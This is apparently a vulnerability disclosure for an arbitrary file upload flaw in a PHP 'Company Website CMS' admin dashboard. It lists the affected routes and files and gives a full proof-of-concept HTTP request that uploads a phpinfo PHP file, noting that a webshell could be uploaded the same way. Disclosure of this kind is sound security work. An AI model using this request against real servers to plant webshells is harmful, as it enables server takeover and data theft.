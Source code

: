 ## Company Website CMS Dashboard Exists Arbitrary File Upload

Company Website CMS Dashboard Exists Arbitrary File Upload

Each file upload page in the background allows arbitrary file uploads. After the attacker enters the background, he can upload a webshell to control the server.

### Arbitrary file upload vulnerability exists in the following access paths

```
/dashboard/createblog
/dashboard/createservice
/dashboard/createportfolio
/dashboard/createslide
/dashboard/newtestimony
/dashboard/logo
```

The following is the corresponding file path

```
/dashboard/add-blog.php
/dashboard/add-portfolio.php
/dashboard/add-service.php
/dashboard/add-slider.php
/dashboard/add-testimony.php
/dashboard/add-user.php
/dashboard/editblog.php
/dashboard/editport.php
/dashboard/editservice.php
/dashboard/edituser.php
/dashboard/section-title.php
/dashboard/site-settings.php
/dashboard/static-home.php
/dashboard/updatecontact.php
/dashboard/updatelogo.php
```



### Take `/dashboard/logo` as an example

```
http://xxxx/dashboard/logo
```

![image-20220806192347786](Company%20Website%20CMS-FileUpload.assets/image-20220806192347786.png)

![image-20220806192512556](Company%20Website%20CMS-FileUpload.assets/image-20220806192512556.png)

```
POST /vogue/dashboard/logo HTTP/1.1
Host: 192.168.11.154
Content-Length: 483
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.11.154
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAyj41gZ8wBTnV1FL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.11.154/vogue/dashboard/logo
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=50tlte4hmi0glidrcg38mvpflk
Connection: close

------WebKitFormBoundaryAyj41gZ8wBTnV1FL
Content-Disposition: form-data; name="xfile"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryAyj41gZ8wBTnV1FL
Content-Disposition: form-data; name="ufile"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryAyj41gZ8wBTnV1FL
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryAyj41gZ8wBTnV1FL--

```

The upload path can be seen in the response

![image-20220806192610183](Company%20Website%20CMS-FileUpload.assets/image-20220806192610183.png)

Access this path

![image-20220806192937588](Company%20Website%20CMS-FileUpload.assets/image-20220806192937588.png)



### Vulnerable code

![image-20220806193354210](Company%20Website%20CMS-FileUpload.assets/image-20220806193354210.png)

Upload the file directly without any filtering

### 
